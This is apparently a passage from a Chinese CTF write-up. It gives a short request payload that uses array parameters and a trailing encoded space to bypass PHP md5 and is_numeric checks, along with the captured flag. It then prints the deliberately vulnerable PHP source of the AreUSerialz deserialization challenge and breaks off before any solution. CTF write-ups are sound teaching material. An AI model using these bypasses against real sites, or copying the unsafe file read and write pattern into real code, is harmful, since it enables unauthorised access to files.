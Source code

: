 
md5数组绕过，`is_numeric`绕过

```
/?id[]=1&gg[]=2
POST: passwd=1234567%20
```

flag{2d5c5d49-f8a2-471e-b3f0-8861a85e34a8}

{{% /spoiler %}}

{{% spoiler "[网鼎杯 2020 青龙组]AreUSerialz  |  反序列化 private-func" %}}

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write(); // 文件写
        } else if($this->op == "2") {
            $res = $this->read();   // 文件读 读flag
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);  // 文件读
        }
        return $res;
    }

```